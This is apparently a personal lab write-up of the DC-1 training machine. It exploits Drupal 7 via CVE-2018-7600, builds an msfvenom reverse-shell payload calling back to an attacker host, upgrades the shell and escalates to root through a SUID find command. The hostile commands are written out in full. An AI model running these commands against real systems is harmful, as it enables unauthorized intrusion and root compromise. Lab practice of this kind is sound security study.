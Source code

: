 # DC-1

![[Pasted image 20220509080859.png]]

## Port scan
```nmap

```

## Port 80: Drupal 7
![[Pasted image 20220509080908.png]]

Vulnerable to CVE-2018-7600

[exploit for drupal 7 < 7.57](https://github.com/pimps/CVE-2018-7600)
```bash
./drupa7-CVE-2018-7600.py -c whoami http://192.168.1.114:80/
```

![[Pasted image 20220509081008.png]]

check the architecture

![[Pasted image 20220509081128.png]]

generate a reverse shell with

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.112 LPORT=80 -f elf -o reverse.elf 
```

copy the payload over using python3 webserver and wget.

reverse shell

![[Pasted image 20220509081313.png]]

fix it

```python3
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
export TERM=xterm
```

## Linpeas findings

credentials to the backend db of drupal

![[Pasted image 20220509081411.png]]

SUID set for `/usr/bin/find` exploitable with the following (sourced from [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid))

```bash
find . -exec /bin/sh \; -quit
```

got a root shell

![[Pasted image 20220509081532.png]]

There are 2 users in the db

![[Pasted image 20220509081713.png]]

Maybe I'll come back and try to recover their passwords someday.
